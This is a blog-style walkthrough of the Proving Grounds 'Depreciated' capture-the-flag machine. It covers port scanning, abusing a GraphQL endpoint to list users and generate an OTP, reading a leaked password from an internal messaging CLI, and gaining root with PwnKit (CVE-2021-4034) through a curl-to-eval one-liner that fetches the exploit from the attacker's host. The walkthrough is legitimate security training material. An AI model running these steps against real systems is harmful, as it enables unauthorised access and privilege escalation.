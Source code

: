 ```yaml
---
layout: post
title: Proving Grounds - Depreciated
subtitle: CTF Walkthrough
cover-img: /assets/img/depreciated/depreciated.png
thumbnail-img: /assets/img/depreciated/depreciated.png
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```

Depreciated is found in various OSCP prepare lists and in NetSecFocus Trophy list. Room is rated as intermediate, but is community rated this room as hard.

### Enumeration

```bash
└─$ rustscan -a 192.168.209.170 -- -sC -sV | tee nmap
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Under Maintainence
5132/tcp open  unknown syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     Enter Username:
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     Enter Username: Enter OTP: Incorrect username or password
|   Help: 
|     Enter Username: Enter OTP:
|   RPCCheck: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
8433/tcp open  http    syn-ack Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-
```

Started with web server. Running feroxbuster revealed no hidden directories. Homepage suggests to use port 5132 CLI which I have attempted to make connection to.

```
└─$ nc -nv 192.168.209.170 5132
(UNKNOWN) [192.168.209.170] 5132 (?) open
Enter Username: admin
Enter OTP: admin
Incorrect username or password
```
Attempted generic password/username combinations without any luck, but inspecting HTML of the webpage I did find some interesting information.

![alt text](/assets/img/depreciated/html-source.png)

I moved my investigation to the new directory http://192.168.209.170:8433/graphql

With query found in the hyperlink I have experimented a bit with trying out different queries and noticed that syntax help is enabled. By entering letters within brackets I got autocomplete suggestions and one of them was {listusers}

![alt text](/assets/img/depreciated/graphiql.png)

We now only need OTP to login to port 5132 CLI.  Playing around with GraphiQl I got autocomplete suggestion for getOPT function to request hopefully generate OTP. With syntax help I was able to construct a query.

```
{getOTP(username:"peter")}
```

![alt text](/assets/img/depreciated/graphiql2.png)

With these credentials I was able to login to the CLI and read peter's messages

```
└─$ nc -nv 192.168.209.170 5132
(UNKNOWN) [192.168.209.170] 5132 (?) open
Enter Username: peter
Enter OTP: ysvdzoSdDjcY1gYo
$ whoami
$ ?

list    list messages
create  create new message
exit    exit the messaging system
read    read the message with given id
update  update the message with given id
help    Show this help
                    
$ list
#2345		Improve the ticketing CLI syst
#1893		Staging keeps on crashing beca
#2347		[critical] The ticketing websi
#1277		Update the MySQL version, it's
#234		Hey, Please change your passwo
#0		Hey, Seriously this is getting
$ read 0
Not authorized to read
$ read 234
Message No: #234

Hey, Please change your password ASAP. You know the password policy, using weak password isn't allowed. And peter@safe is very weak, use https://password.kaspersky.com/ to check the strength of the password.

Attachment: none
$ read 1277
Not authorized to read
$ read 2347 
Not authorized to read
$ read 1893
Not authorized to read
$ read 2345
Not authorized to read
```

Peter:peter@safe 

Looks like peter ignored this message, because I was able to login via SSH with these credentials.

### Privilege Escalation

Once logged on I did some basic enumeration without interesting results so I fired up linpeas.

```
└─$ scp linpeas.sh peter@192.168.209.170:/tmp
```

CVE Check suggested that machine is vulnerable to [CVE-2021-4034](https://github.com/berdav/CVE-2021-4034).

On my machine I have cloned the repository and changed directory into the folder.

```
└─$ git clone https://github.com/berdav/CVE-2021-4034
└─$ cd CVE-2021-4034
```

On attacking machine I used onliner.

```
peter@depreciated:/tmp$ eval "$(curl -s http://192.168.49.209:4444/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
# whoami
root
# cd /root
# ls 
proof.txt  snap
```

Thats it. GG.

